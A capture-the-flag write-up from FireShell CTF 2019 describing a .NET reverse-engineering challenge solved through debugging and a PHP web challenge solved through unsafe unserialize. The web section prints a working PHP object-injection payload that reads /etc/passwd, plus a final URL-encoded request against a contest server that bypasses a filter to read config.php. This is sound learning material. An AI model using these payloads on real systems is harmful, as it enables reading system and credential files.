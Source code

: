 # FireShell CTF 2019

## RE - BlackBox Cypher

Task :

![](.gitbook/assets/image%20%28193%29.png)

It's .Net file so we put it in dnspy

![](.gitbook/assets/image%20%28208%29.png)

Oops...obfuscated, try to clean it with de4dot

![](.gitbook/assets/image%20%28159%29.png)

Better, but still fucking so heavy. It's quite easy to know that the file work/obfuscated like this :

It created 100+ junk class, each have few function \(2-6 func\) and call to each other

Sounds pain in the ass, right?

Also, the challenge name is "Blackbox Cipher", so i assume that i dont even need to understand the algorithm behind it.

So i trying to run the binary, dump it and search for string in memory.

But where to stop to dump? Well, there is no other way around, you must debug the application to see where it generate the crypted flag.

![](.gitbook/assets/image%20%28240%29.png)

As you can see, after navigate through the code for a while, i realize the result is my encoded flag, where it's only assigned at

```text
result = Class9.smethod_1(null, type).vmethod_3(this.method_149()).vmethod_0();
```

Now i know that somehow it calculate encoded flag in those method, which mean it init flag somewhere in that too.

So there is 2 ways to solve this problem at this moment :

1. You keep debugging through these code and search through memory too.
2. You just now dump the memory, base64\("F\#{"\) and search in memory

Both work well,  i checked after ctf end, but when the ctf is running, i choose first one, because :

1. I dont know flag format since i havent read rules page...oops!
2. I am afraid that it will some where delete the flag out of memory before it return the encoded flag or maybe it can split flag into many method, and receive few bytes from each, null it after used immediately

After 15 minutes of pressing F11, i finally got

![](.gitbook/assets/image%20%28248%29.png)

Base64 decode it, we got flag

```text
F#{It's_all_about_memory_forensics}
```



## Web - Vice

Task :

```php
<?php
//require_once 'config.php';

class SHITS{
  private $url;
  private $method;
  private $addr;
  private $host;
  private $name;

  function __construct($method,$url){
    $this->method = $method;
    $this->url = $url;
  }

  function doit(){
    
    $this->host = @parse_url($this->url)['host'];
    $this->addr = @gethostbyname($this->host);
    $this->name = @gethostbyaddr($this->host);
    if($this->addr !== "127.0.0.1" || $this->name === false){
      $not = ['.txt','.php','.xml','.html','.','[',']'];
      foreach($not as $ext){
        $p = strpos($this->url,$ext);
        if($p){
          die(":)");
        }
      }
      $ch = curl_init();
      curl_setopt($ch,CURLOPT_URL,$this->url);
      curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);

      $result = curl_exec($ch);
      echo $result;
    }else{
      die(":)");
    }
  }
  function __destruct(){
    if(in_array($this->method,array("doit"))){
 
      call_user_func_array(array($this,$this->method),array());
    }else{
      die(":)");
    }
  }
}
if(isset($_GET["gg"])) {
    @unserialize($_GET["gg"]);
} else {
    highlight_file(__FILE__);
}
```

I was trying to solve Boring Check, but then our team rank is down quickly to 3rd, and we must solve one more chall to keep our rank, compete with @bi0s for 3rd place. Time to call help from home.

![](.gitbook/assets/image%20%2848%29.png)

From @Thach works, we finally can craft the payload and read file base on php unserialize bug



```php
//Credit : Thach Nguyen Hoang
<?php
//require_once 'config.php';

class SHITS{
  private $url;
  private $method;
  private $addr;
  private $host;
  private $name;

  function __construct($method,$url){
    $this->method = $method;
    $this->url = $url;
  }

  function doit(){
    
    $this->host = @parse_url($this->url)['host'];
    echo $this->host;
    $this->addr = @gethostbyname($this->host);
    $this->name = @gethostbyaddr($this->host);
    if($this->addr !== "127.0.0.1" || $this->name === false){
      $not = ['.txt','.php','.xml','.html','.','[',']'];
      foreach($not as $ext){
        $p = strpos($this->url,$ext);
        if($p){
          echo $ext;
          die(":)");
        }
      }
      $ch = curl_init();
      curl_setopt($ch,CURLOPT_URL,$this->url);
      curl_setopt($ch,CURLOPT_RETURNTRANSFER,true);

      $result = curl_exec($ch);
      /* echo $result; */
    }else{
      die(":)");
    }
  }
  
  function __destruct(){
    if(in_array($this->method,array("doit"))){
 
      call_user_func_array(array($this,$this->method),array());
    }else{
      die(":)");
    }
  }
}


$o = new SHITS('doit', 'file:///etc/passwd');
echo urlencode(serialize($o));
```

What next? Where is flag?

```text
//require_once 'config.php';
```

There is commented line on challenge source. But it have '.' inside file name, which is filtered. So to bypass strpos\(\), we use urlencode, and guess the path to config.php, which is :

```text
/var/www/html/config%2ephp
```

Final payload

```text
view-source:http://68.183.31.62:991/?gg=O%3A5%3A%22SHITS%22%3A5%3A%7Bs%3A10%3A%22%00SHITS%00url%22%3Bs%3A33%3A%22file%3A%2F%2F%2Fvar%2Fwww%2Fhtml%2Fconfig%252ephp%22%3Bs%3A13%3A%22%00SHITS%00method%22%3Bs%3A4%3A%22doit%22%3Bs%3A11%3A%22%00SHITS%00addr%22%3BN%3Bs%3A11%3A%22%00SHITS%00host%22%3BN%3Bs%3A11%3A%22%00SHITS%00name%22%3BN%3B%7D
```

Flag

```text
F#{wtf_5trp0s_}
```



## Last words

We end up at 3rd place. Time to practice more...

![](.gitbook/assets/image%20%28198%29.png)

